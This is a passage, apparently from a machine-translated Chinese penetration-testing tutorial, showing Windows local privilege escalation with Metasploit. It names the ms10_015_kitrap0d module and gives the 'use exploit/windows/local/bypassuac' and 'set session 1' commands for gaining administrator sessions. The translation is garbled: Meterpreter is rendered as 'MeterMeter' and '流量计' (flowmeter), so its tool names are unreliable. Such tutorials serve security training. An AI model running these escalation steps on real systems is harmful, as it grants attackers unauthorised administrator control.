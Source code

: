 我们将使用`kitrap0d`进行开发。使用`exploit/windows/local/ms10_015_kitrap0d`。我们设置了 MeterMeter 会话和有效负载：

![](img/8e3e7c94-a9ec-41e6-8a1f-96e33ded9024.png)

然后，我们运行该漏洞：

![](img/d28ad678-55b4-4171-9343-b2217ac25924.png)

我们有管理员。让我们再利用一个漏洞：臭名昭著的`bypassuac`：

```
use exploit/windows/local/bypassuac
```

现在，我们在系统上设置当前流量计的会话：

```
 set session 1
```

我们运行并看到第二个具有管理员权限的 MeterMeter 为我们打开：

